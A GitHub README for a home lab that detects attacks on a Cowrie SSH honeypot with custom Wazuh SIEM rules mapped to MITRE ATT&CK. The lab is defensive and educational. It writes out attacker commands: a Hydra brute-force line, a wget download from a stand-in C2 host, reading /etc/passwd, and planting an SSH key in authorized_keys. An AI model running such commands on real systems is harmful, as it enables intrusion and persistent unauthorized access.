





# Honeypot Lab: Attack Detection with Cowrie and Wazuh

In this lab, I deployed a Cowrie Honeypot on an Ubuntu VM and had a Kali Linux VM manage to get into the "web-server01" and simulate malicious commands when it was inside. While this all was happening, I setup the honeypot to send custom alerts to a SIEM (Wazuh) to simulate what a SOC analyst might do to be able to detect any breaches to this honeypot.

## Overview

This project simulates the core workflow of a Security Operations Center (SOC) on a small scale. A [Cowrie](https://github.com/cowrie/cowrie) honeypot presents a convincing fake Linux system to attackers and records everything they do. The logs are then shipped to [Wazuh](https://wazuh.com/). Before this attack was simulated, I created custom detection rules to turn raw events into prioritized, actionable alerts. I launched the attacks from a Kali Linux machine and was able to track all the alerts that follow.

The goal was to build the complete detection pipeline myself — sensor, log forwarding, and detection logic — rather than just standing up a tool, and to demonstrate that each stage works by attacking the lab and verifying the alerts.

## Architecture

The lab runs three virtual machines on an isolated VMware NAT network, so attack tools never touch anything outside the lab.

```
              Isolated VMware NAT network (192.168.8.0/24)

  ┌──────────────────┐     ┌──────────────────┐     ┌──────────────────┐
  │   Kali Linux     │     │   Unbuntu Linux  │     │  Wazuh Server    │
  │  192.168.8.132   │────▶│  192.168.8.130   │────▶│  192.168.8.129  │
  │                  │ SSH │                  │logs │                  │
  │  Attacker:       │     │  Honeypot +      │     │  SIEM manager,   │
  │  Hydra,          │     │  Wazuh agent     │     │  indexer,        │
  │  manual SSH      │     │  (Cowrie on 2222)│     │  dashboard       │
  └──────────────────┘     └──────────────────┘     └──────────────────┘
     attacks the              records the              collects logs,
      honeypot               activity, forwards        applies rules, and
                              logs to the SIEM          raises alerts
```

| Component | Role | Key software |
|-----------|------|--------------|
| Kali Linux | Attacker | Hydra, OpenSSH |
| Ubuntu Linux | Honeypot sensor | Cowrie, Wazuh agent |
| Wazuh Server | SIEM | Wazuh manager, indexer, dashboard |

## How the detection pipeline works

1. **Capture.** Cowrie emulates an SSH server on port 2222. Any login attempt or command is written to `var/log/cowrie/cowrie.json` as a structured JSON.
2. **Forward.** A Wazuh agent on the Cowrie VM watches that JSON file (`ossec.conf` `<localfile>` block) and streams each event to the Wazuh manager.
3. **Decode.** Wazuh's JSON decoder extracts fields like `eventid`, `src_ip`, `username`, and `input`.
4. **Detect.** Custom rules that I build into the Wazuh Server match those fields and assign a severity level, generating alerts visible in the dashboard. (This was my favorite part and what I think is the most important takeaway).

## Detection rules

If you want to see the detection rules I created: [`detection-rules/local_rules.xml`](detection-rules/local_rules.xml). They are layered: a base rule matches any Cowrie event, and the specific rules build on it. It is pretty simple code so it should not need too much explaining.

| Rule ID | Level | Fires on | MITRE technique |
|---------|-------|----------|-----------------|
| 100100 | 3 | Any Cowrie event (base rule) | — |
| 100101 | 5 | Failed login attempt | T1110 Brute Force |
| 100102 | 10 | Successful login | T1078 Valid Accounts |
| 100103 | 8 | Command executed in the shell | T1059.004 Unix Shell |
| 100104 | 12 | File download attempt (`wget`/`curl`) | T1105 Ingress Tool Transfer |
| 100105 | 9 | 8+ failed logins from one IP within 90s | T1110 Brute Force |
| 100106 | 12 | Backdoor attempt or a scheduled task | T1053.005 Scheduled Task | 

Rule 100105 is a correlation rule: instead of matching a single event, it counts failed logins from the same source IP over time, which is how a SIEM distinguishes a brute-force attack from a single fat-fingered password.

## Part 1: SSH brute-force attack

**Objective:** detect an automated password-guessing attack and the login that follows.

Cowrie was configured to accept only a specific credentials (`root:password123`) via `userdb.txt`, so most guesses fail and one succeeds — producing a realistic detection chain. `password123` was chosen because it appears in the `rockyou.txt` wordlist, so a real dictionary attack reaches it.

**Attack (from Kali):**
```bash
hydra -l root -P ~/attack.txt -t 4 -f ssh://192.168.8.130:2222
```

**Result:** Hydra worked through the wordlist, generating close to 1,400 failed-login events before landing on the valid password. In Wazuh this produced:

- A flood of **rule 100101** (level 5) failed-login alerts
- One **rule 100105** (level 9) brute-force alert, correctly attributing the source to Kali (`192.168.8.132`)
- One **rule 100102** (level 10) successful-login alert

If you would like to see the alerts generated:




## Part 2: Post-login Activity

**Objective:** capture what an attacker does *after* gaining access — the reason honeypots exist.

**Attack (from Kali, after logging in as `root`):**
```bash
whoami                                    # confirm access
uname -a                                  # fingerprint the host
cat /etc/passwd                           # enumerate accounts
wget http://malware-c2-server.com/malware.sh   # attempt tool download
curl -O http://example.com/malware.sh          # second download attempt
echo "ssh-rsa AAAAB3fakekey attacker@kali" >> ~/.ssh/authorized_keys  # plant backdoor key
crontab -l                                # inspect scheduled tasks
exit
```

**Result:** every action was captured and alerted. The Threat Hunting tab in Wazuh below shows the complete attack chain in sequence — login, reconnaissance, download attempts, and persistence — each mapped to the rule that caught it.



The expanded view of a single level-12 download alert shows the full decoded detail Wazuh extracts from one event, including the exact command, source IP, and agent:



## Results summary

| Attack action | Detected by | Level | MITRE technique |
|---------------|-------------|-------|-----------------|
| Password brute force | 100105 | 9 | T1110 |
| Successful login | 100102 | 10 | T1078 |
| Reconnaissance (`whoami`, `uname`, `cat /etc/passwd`) | 100103 | 8 | T1059.004 |
| Malware download attempt (`wget`/`curl`) | 100104 | 12 | T1105 |
| Persistence (`authorized_keys`, `crontab`) | 100106 | 8 | T1098.004 / T1053.003 |

## Key challenges and lessons

**A one-word typo in a detection rule.** After the brute-force attack, successful-login alerts (rule 100102) never appeared, even though Cowrie was clearly logging the events. The pipeline looked healthy end to end: the agent was active, the log was being read, and the base rule was firing. Using Wazuh's `wazuh-logtest` tool to trace a single event through decoding and rule matching revealed the problem — the rule was matching the field value `cowrie.login.successful`, but Cowrie's actual event ID is `cowrie.login.success`. One extra word meant the rule never matched.

This turned out to be a genuinely realistic SOC experience: a large share of "why didn't my alert fire" incidents come down to a rule looking for a slightly different string than the log actually contains. It reinforced the habit of verifying detection logic against real event data with a log-testing tool rather than assuming a rule is correct because it looks correct.

**Cowrie's default "accept any password" behavior.** By design, Cowrie lets attackers in with almost any credentials to maximize captured behavior. For a detection lab this had to be constrained via `userdb.txt` so that failed logins would actually occur and the brute-force rule could trigger.

**Emulated commands don't behave like real ones.** Cowrie emulates commands like `wget` rather than running them, so a download "fails" from the attacker's view. For detection this is irrelevant — the value is in logging the *attempt*, which is exactly what fired the level-12 alert.

## Repository structure

```
honeypot-detection-lab/
├── README.md
├── detection-rules/
│   └── local_rules.xml          # custom Wazuh detection rules
├── honeypot-config/
│   ├── cowrie.cfg               # Cowrie configuration
│   └── userdb.txt               # lab credentials (fake, lab-only)
└── screenshots/
    ├── failed-logins.png
    ├── bruteforce-alert.png
    ├── successful-login.png
    ├── postlogin-alert.png
    └── alert-details.png
```

## Tools used

- **[Cowrie](https://github.com/cowrie/cowrie)** — medium-interaction SSH/Telnet honeypot
- **[Wazuh](https://wazuh.com/)** — open-source SIEM/XDR platform
- **[Kali Linux](https://www.kali.org/)** — penetration-testing distribution (Hydra, nmap)
- **VMware** — virtualization with an isolated NAT network
- **[MITRE ATT&CK](https://attack.mitre.org/)** — framework for classifying attacker techniques

## Disclaimer

This lab was built in an isolated virtual network for educational purposes. All attacks were performed against systems I own. Never run scanning or attack tools against systems you do not have explicit permission to test.
